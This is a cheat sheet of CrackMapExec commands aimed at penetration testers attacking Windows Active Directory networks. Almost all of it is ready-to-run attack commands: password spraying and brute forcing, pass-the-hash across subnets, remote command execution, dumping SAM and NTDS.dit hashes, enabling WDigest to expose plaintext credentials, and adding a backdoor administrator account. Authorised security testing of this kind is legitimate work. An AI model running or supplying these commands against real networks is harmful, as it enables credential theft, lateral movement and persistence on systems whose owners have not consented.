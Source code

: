 ### **CRACKMAPEXEC (CME)**

CrackMapExec (CME) is an open-source post-exploitation tool that helps penetration testers to perform various network-level attacks and enumeration tasks. It is particularly useful for managing large Active Directory (AD) networks.

### **KEY FUNCTIONALITIES**

1. Enumerating Users and Groups
	`Lists users, groups, and other AD objects`
2. Password Spraying
	`Tests a single password against multiple user accounts`
3. Command Execution
	`Executes commands remotely on target systems`
4. Dumping Hashes
	`Extracts password hashes from remote systems`
5. Accessing Shares	
	`Lists and accesses SMB shares on remote systems`

### **TARGET FORMATS**

1. Single IP Address:
   	`crackmapexec smb [IP-ADDRESS-1] [IP-ADDRESS-2]`

2. IP range
   `crackmapexec smb [IP-ADDRESS]-28 [IP-ADDRESS]-67`

3. CIDR notation
   `crackmapexec smb [IP-ADDRESS]/24`

4. Targets from file
   `crackmapexec smb targets.txt`

### **CONNECT TO TARGET USING LOCAL ACCOUNT**

1. Connect with local account
   `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth`

2. Using Null Session:
   `crackmapexec smb [IP-ADDRESS] -u "" -p ""`

### **PASS THE HASH AGAINST A SUBNET**

1. Pass the hash with local auth
   `crackmapexec smb [IP_ADDRESS]/24 -u [USERNAME] -H '[LMHASH:NTHASH]' --local-auth`

2. Standard Pass the Hash
   `crackmapexec smb [IP-ADDRESS]/24 -u [USERNAME] -H '[NTHASH]'`

### **BRUTEFORCING AND PASSWORD SPRAYING**

1. Single password
   `crackmapexec smb [IP-ADDRESS]/24 -u "[USERNAME]" -p "[PASSWORD]"`

2. Multiple passwords
   `crackmapexec smb [IP-ADDRESS]/24 -u "[USERNAME]" -p "[PASSWORD1]" "[PASSWORD2]"`

3. Multiple users
    `crackmapexec smb [IP-ADDRESS]/24 -u "[USERNAME1]" "[USERNAME2]" -p "[PASSWORD]"`

4. Users and passwords from files
    `crackmapexec smb [IP-ADDRESS]/24 -u [USER_FILE] -p [PASS_FILE]`

5. Users from file, hashes from file
    `crackmapexec smb [IP-ADDRESS]/24 -u [USER_FILE] -H [NTLM_HASH_FILE]`

### **USERS ENUMERATION**

1. Enumerate users
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --users`

2. Perform RID bruteforce to get users
   `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --rid-brute`

3. Enumerate domain groups
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --groups`

4. Enumerate local users
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-users`

### **HOSTS ENUMERATION**

1. Generate a list of relayable hosts
    `crackmapexec smb [IP-ADDRESS]/24 --gen-relay-list output.txt`

2. Enumerate available shares
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --shares`

3. Get the active sessions
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --sessions`

4. Check logged in users
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --lusers`

5. Get the password policy
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --pass-pol`

### **COMMAND EXECUTION METHODS**

1. Execute command through cmd.exe
    `crackmapexec smb [IP_ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'whoami'`

2. Force the smbexec method
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'net user Administrator /domain' --exec-method smbexec`

3. Execute commands through PowerShell
    `crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p '[PASSWORD]' -X 'whoami'`

### **GETTING CREDENTIALS**

1. Dump local SAM hashes
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --sam`

2. Enable WDigest to get credentials from LSA memory
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --wdigest enable`

3. Disable WDigest
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --wdigest disable`

4. Query user sessions
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'quser'`

5. Force logoff
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'logoff [SESSIONID]'`

6. Dump the NTDS.dit from DC using secretsdump.py
    `crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p '[PASSWORD]' --ntds`

7. Use Volume Shadow copy Service to dump NTDS.dit
    `crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p '[PASSWORD]' --ntds vss`

8. Dump the NTDS.dit password history
    `crackmapexec smb [IP-ADDRESS]/24 -u [USERNAME] -p '[PASSWORD]' --ntds-history`

### **ADDITIONAL FEATURES**

1. Upload a file to a remote share
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --upload local_file.txt \\remote\share`

2. Download a file from a remote share
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --download \\remote\share\remote_file.txt local_path`

3. Add a new user
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth -x "net user [NEW_USER] [new_pass] /add"`

4. Add a user to Admins group
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth -x "net localgroup administrators [NEW_USER] /add"`
